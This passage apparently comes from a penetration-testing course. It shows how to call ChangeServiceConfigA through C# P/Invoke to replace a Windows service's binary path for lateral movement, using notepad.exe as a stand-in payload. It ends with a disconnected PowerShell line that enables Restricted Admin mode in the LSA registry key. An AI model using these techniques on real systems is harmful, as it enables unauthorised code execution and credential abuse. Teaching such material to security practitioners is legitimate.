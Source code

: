 ```
BOOL ChangeServiceConfigA(
  SC_HANDLE hService,
  DWORD     dwServiceType,
  DWORD     dwStartType,
  DWORD     dwErrorControl,
  LPCSTR    lpBinaryPathName,
  LPCSTR    lpLoadOrderGroup,
  LPDWORD   lpdwTagId,
  LPCSTR    lpDependencies,
  LPCSTR    lpServiceStartName,
  LPCSTR    lpPassword,
  LPCSTR    lpDisplayName
);
```

> Listing 34 - Function prototype for ChangeServiceConfigA

While the API accepts many arguments, we only need to specify some of them. The first (_hService_) is the handle to the service we obtained from calling _OpenService_. Next, _dwServiceType_ allows us to specify the type of the service.

We only want to modify the service binary so we'll specify _SERVICE_NO_CHANGE_ by its numerical value, 0xffffffff.

We can modify the service start options through the third argument (_dwStartType_). Since we want to have the service start once we have modified the service binary, we'll set it to _SERVICE_DEMAND_START_ (0x3). As the fourth argument, _dwErrorControl_ will set the error action and we'll specify _SERVICE_NO_CHANGE_ (0) to avoid modifying it.

The fifth argument (_lpBinaryPathName_) contains the path of the binary that the service will execute when started. This is what we want to update and as an initial proof of concept, we'll set this to "notepad.exe".

The final six arguments are not relevant to us and we can set them to null. The final piece we need is the P/invoke import of _ChangeServiceConfig_:[5](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5386-5)

```
[DllImport("advapi32.dll", EntryPoint = "ChangeServiceConfig")]
[return: MarshalAs(UnmanagedType.Bool)]
public static extern bool ChangeServiceConfigA(IntPtr hService, uint dwServiceType, int dwStartType, int dwErrorControl, string lpBinaryPathName, string lpLoadOrderGroup, string lpdwTagId, string lpDependencies, string lpServiceStartName, string lpPassword, string lpDisplayName);
```

> Listing 35 - P/invoke for ChangeServiceConfig

At this point, we can update our code to invoke the call with the discussed arguments:

```
string payload = "notepad.exe";
bool bResult = ChangeServiceConfigA(schService, 0xffffffff, 3, 0, payload, null, null, null, null, null, null);
```

> Listing 36 - Code to call ChangeServiceConfig


[appsrv01]: PS C:\Users\admin\Documents> New-ItemProperty -Path "HKLM:\System\CurrentControlSet\Control\Lsa" -Name DisableRestrictedAdmin -Value 0
[appsrv01]: PS C:\Users\admin\Documents> Exit